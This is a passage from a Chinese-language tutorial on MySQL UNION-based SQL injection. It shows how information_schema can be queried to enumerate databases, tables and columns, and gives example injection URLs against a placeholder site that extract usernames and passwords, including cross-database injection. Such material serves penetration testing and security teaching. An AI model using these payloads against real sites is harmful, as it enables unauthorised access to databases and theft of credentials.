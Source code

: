##### 判断数据库的版本

根据上面的步骤判断出相应数据库的版本。

###### 5.0以上高版本

在MySql5.0以上版本中mysql存在一个自带数据库名为information_schema，它是一个存储记录有所有数据库名，表名，列名的数据库，也相当于可以通过查询他获取指定数据库下面表名或列明信息。

```mysql
information_schema.tables; # 记录所有表名信息的表
information_schema.columns; # 记录所有列名信息的表
information_schema.schemata; # 记录所有数据库的表

table_name; # 表名
column_name; # 列名
table_schema; # 数据库名,这个是在tables这个数据库中的，这个是每个表所对应的数据库
schema_name; # 数据库名,这个是在schemata这个数据库中的，这个是所有的表

group_concat()查询所有 # 查询这个列的所有信息
```

注：数据库中符号"."代表下一级的意思eg:mydatabase.mytable

###### 实例：

```sql
查询指定数据库名下的表名信息：
www.mytest.com/index.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema = '数据库的名字';

查询指定表名下的列名信息：
www.mytest.com/index.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = '表名';

查询指定的数据：
www.mytest.com/index.php?id=-1 union select 1,username,password,4 from 表名
如果表中又多个数据要是用limit来进行猜解
```

###### 5.0以下底版本

只能通过猜的方式。

#### 跨库注入：

跨库注入需要root权限，当这个网站没有注入时，使用这种方法。有注入的话直接使用database();这个函数即可。

##### 实例：

```sql
获取所有的数据库名
www.mytest.com/index.php?id=-1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata;

获取指定数据库名下的表名信息
www.mytest.com/index.php?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库名'

获取数据库上一步查询出来的表名下的列名信息：
www.mytest.com/index.php?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='表名' and table_schema='指定数据库名'
为什么后面需要加上and呢，因为eg有很多给数据库，但是每个数据库下面都有一个admin表，这时候没有办法进行区分查询出来的是否是指定数据库下的表名的列名信息，故需要加上and。

获取指定数据库下的表数据
www.mytest.com/index.php?id=-1 union select 1,列字段1,列字段2,4 from 数据库名.表名
# 根据上面的内容就直接知道了字段的内容，就不需要爆字段了
```
